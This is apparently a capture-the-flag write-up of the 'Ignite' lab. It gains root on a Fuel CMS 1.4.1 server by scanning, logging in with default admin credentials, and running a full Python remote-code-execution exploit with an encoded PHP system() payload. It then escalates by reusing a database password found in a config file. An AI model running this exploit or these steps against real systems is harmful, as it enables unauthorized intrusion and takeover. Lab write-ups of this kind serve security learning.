 ```yaml
---
title: Ignite
published: 2025-08-26
description: 'A new start-up has a few issues with their web server.'
image: ''
tags: ['CMS','PRIVSEC','SHELL','DEFAULT']
category: 'THM'
draft: false 
---
```


## Enumeration:
```shell
❯❯ nmap -sCV -A -T4 10.10.209.134
Starting Nmap 7.97 ( https://nmap.org ) at 2025-08-26 12:02 +0100
Nmap scan report for 10.10.209.134
Host is up (0.071s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Welcome to FUEL CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/fuel/

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.82 seconds
```
> - After Searching i found this path in `robots.txt` is `http://<IP>/fuel` :
![cms](./Ignite-Images/cms.jpg)

## Exploitation

> - Now i try Default Credentials For CMS Fuel is `admin:admin`
> - Successful login
> - But I dont Have Access For upload Reverse-Shell because he has a blacklist like `.pdf / .png ...`
> - So, you can try searching for [CVE-FUEL-CMS](https://www.exploit-db.com/exploits/50477)

```py
#!/usr/bin/python3

import requests
from urllib.parse import quote
import argparse
import sys
from colorama import Fore, Style

def get_arguments():
	parser = argparse.ArgumentParser(description='fuel cms fuel CMS 1.4.1 - Remote Code Execution Exploit',usage=f'python3 {sys.argv[0]} -u <url>',epilog=f'EXAMPLE - python3 {sys.argv[0]} -u http://10.10.21.74')

	parser.add_argument('-v','--version',action='version',version='1.2',help='show the version of exploit')

	parser.add_argument('-u','--url',metavar='url',dest='url',help='Enter the url')

	args = parser.parse_args()

	if len(sys.argv) <=2:
		parser.print_usage()
		sys.exit()
	
	return args


args = get_arguments()
url = args.url 

if "http" not in url:
	sys.stderr.write("Enter vaild url")
	sys.exit()

try:
   r = requests.get(url)
   if r.status_code == 200:
       print(Style.BRIGHT+Fore.GREEN+"[+]Connecting..."+Style.RESET_ALL)


except requests.ConnectionError:
    print(Style.BRIGHT+Fore.RED+"Can't connect to url"+Style.RESET_ALL)
    sys.exit()

while True:
	cmd = input(Style.BRIGHT+Fore.YELLOW+"Enter Command $"+Style.RESET_ALL)
		
	main_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+quote(cmd)+"%27%29%2b%27"

	r = requests.get(main_url)

	#<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">

	output = r.text.split('<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">')
	print(output[0])
	if cmd == "exit":
		break
```

```shell
❯❯ python3 script.py -u http://10.10.140.243
[+]Connecting...
Enter Command $id
systemuid=33(www-data) gid=33(www-data) groups=33(www-data)
```
> - Now i can use reverse shell :
![SHELL](./Ignite-Images/shell2.jpg)

## Privilege Escalation

> - Great!! / Now i found a File database in : `/var/www/fuel/application/config`
> - in this file i have passwd of root DB 
> - So, Now im ROOT :
```shell
$active_group = 'default';
$query_builder = TRUE;

$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => 'mememe',
	'database' => 'fuel_schema',
	'dbdriver' => 'mysqli',
	'dbprefix' => '',
	'pconnect' => FALSE,
	'db_debug' => (ENVIRONMENT !== 'production'),
	'cache_on' => FALSE,
	'cachedir' => '',
	'char_set' => 'utf8',
	'dbcollat' => 'utf8_general_ci',
	'swap_pre' => '',
	'encrypt' => FALSE,
	'compress' => FALSE,
	'stricton' => FALSE,
	'failover' => array(),
	'save_queries' => TRUE
);

// used for testing purposes
if (defined('TESTING'))
{
	@include(TESTER_PATH.'config/tester_database'.EXT);
}
www-data@ubuntu:/var/www/html/fuel/application/config$ su root
su root
Password: mememe

root@ubuntu:/var/www/html/fuel/application/config# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/var/www/html/fuel/application/config# 
```
